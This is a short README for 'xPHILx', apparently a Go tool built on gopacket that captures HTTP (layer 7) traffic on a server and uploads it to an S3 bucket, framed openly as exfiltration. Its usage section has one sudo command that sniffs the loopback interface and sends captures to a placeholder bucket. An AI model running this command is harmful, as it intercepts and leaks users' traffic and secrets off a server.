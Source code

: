 # xPHILx

<img src="https://raw.githubusercontent.com/unclever-labs/xphilx/master/xphilx.jpg." width="375" height="466" />

## Introduction

Exfiltrate layer 7 payloads to S3 from a running server

## Contents

- [Usage](#usage)
- [Credits](#credits)

## Usage

```bash
sudo go run main.go -i lo0 -b s3://fake-bucket/
```

## Credits

- Photo from @cctildef on IG
- A lot of copy pasta from: https://github.com/google/gopacket/blob/master/examples/httpassembly/main.go
